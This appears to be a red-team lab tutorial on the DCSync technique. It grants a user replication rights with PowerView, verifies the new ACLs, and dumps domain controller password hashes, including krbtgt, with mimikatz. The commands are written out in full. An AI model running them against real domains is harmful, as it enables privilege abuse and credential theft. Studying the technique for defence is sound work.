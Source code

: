 # DCSync: Dump Password Hashes from Domain Controller

This lab shows how a misconfigured AD domain object permissions can be abused to dump DC password hashes using the DCSync technique with mimikatz.

It is known that the below permissions can be abused to sync credentials from a Domain Controller:

> * The “[**DS-Replication-Get-Changes**](https://msdn.microsoft.com/en-us/library/ms684354\(v=vs.85\).aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes
>   * **GUID:** 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes All**](https://msdn.microsoft.com/en-us/library/ms684355\(v=vs.85\).aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes-All
>   * **GUID:** 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes In Filtered Set**](https://msdn.microsoft.com/en-us/library/hh338663\(v=vs.85\).aspx)” extended right (this one isn’t always needed but we can add it just in case :)
>   * **CN:** DS-Replication-Get-Changes-In-Filtered-Set
>   * **GUID:** 89e95b76-444d-4c62-991a-0facbeda640c
>
> [http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)

## Execution

Inspecting domain's `offense.local` permissions, it can be observed that user `spotless` does not have any special rights just yet:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-18-32.png>)

Using PowerView, we can grant user `spotless` 3 rights that would allow them to grab password hashes from the DC:

{% code title="attacker@victim" %}
```csharp
Add-ObjectACL -PrincipalIdentity spotless -Rights DCSync
```
{% endcode %}

Below shows the above command and also proves that spotless does not belong to any privileged group:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-21-02.png>)

However, inspecting `offense.local` domain object's privileges now, we can see 3 new rights related to `Directory Replication` added:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-21-09.png>)

Let's grab the SID of the user spotless with `whoami /all`:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-28-18.png>)

Using powerview, let's check that the user `spotless` `S-1-5-21-2552734371-813931464-1050690807-1106` has the same privileges as seen above using the GUI:

{% code title="attacker@kali" %}
```csharp
Get-ObjectAcl -Identity "dc=offense,dc=local" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "S-1-5-21-2552734371-813931464-1050690807-1106"}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-27-54.png>)

Additionally, we can achieve the same result without PowerView if we have access to AD Powershell module:

{% code title="attacker@victim" %}
```csharp
Import-Module ActiveDirectory
(Get-Acl "ad:\dc=offense,dc=local").Access | ? {$_.IdentityReference -match 'spotless' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 15-11-36.png>)

See [Active Directory Enumeration with AD Module without RSAT or Admin Privileges](active-directory-enumeration-with-ad-module-without-rsat-or-admin-privileges.md) to learn how to get AD module without admin privileges.

### DCSyncing Hashes

Since the user `spotless` has now the required privileges to use `DCSync`, we can use mimikatz to dump password hashes from the DC via:

{% code title="attacker@victim" %}
```csharp
lsadump::dcsync /user:krbtgt
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-34-44.png>)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/" %}

{% embed url="https://medium.com/@jsecurity101/syncing-into-the-shadows-bbd656dd14c8" %}
